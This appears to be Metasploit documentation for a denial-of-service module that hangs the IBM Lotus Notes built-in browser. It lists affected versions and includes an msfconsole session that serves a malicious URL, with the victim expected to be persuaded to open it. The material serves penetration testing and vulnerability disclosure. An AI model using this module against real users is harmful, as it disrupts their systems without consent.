 ## Vulnerable Application
This module exploits a vulnerability in the built-in web-browser of IBM Lotus Notes client application.

If a user is persuaded to click on a malicious link, it would open up many file select dialog boxes which, 
would cause the client hang and have to be restarted.

Affected Products and Versions

IBM Notes 9.0.1 to 9.0.1 FP8 IF1
IBM Notes 9.0 to 9.0 IF4.
IBM Notes 8.5.3 to 8.5.3 FP6 IF13.
IBM Notes 8.5.2 to 8.5.2 FP4 IF3.
IBM Notes 8.5.1. to 8.5.1 FP5 IF5.
IBM Notes 8.5 release

Related security bulletin from IBM: http://www-01.ibm.com/support/docview.wss?uid=swg21999384 

## Verification

Start msfconsole

`use auxiliary/dos/http/ibm_lotus_notes2.rb`

Set `SRVHOST`

Set `SRVPORT`

run (Server started)
Visit server URL in the built-in web-browser of IBM Notes client application

## Scenarios

```
msf > use auxiliary/dos/http/ibm_lotus_notes2 
msf auxiliary(ibm_lotus_notes2) > show options 

Module options (auxiliary/dos/http/ibm_lotus_notes2):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  


msf auxiliary(ibm_lotus_notes2) > set SRVHOST 192.168.0.50
SRVHOST => 192.168.0.50
msf auxiliary(ibm_lotus_notes2) > set SRVPORT 9092
SRVPORT => 9092
msf auxiliary(ibm_lotus_notes2) > run
[*] Auxiliary module execution completed
msf auxiliary(ibm_lotus_notes2) > 
[*] Using URL: http://192.168.0.50:9092/mypath
[*] Server started.
msf auxiliary(ibm_lotus_notes2) > 
```

At this point, the target should use the built-in web browser of their IBM Lotus Notes client to navigate to the above "Using URL" value.  And then they should see their Notes app become unresponsive.
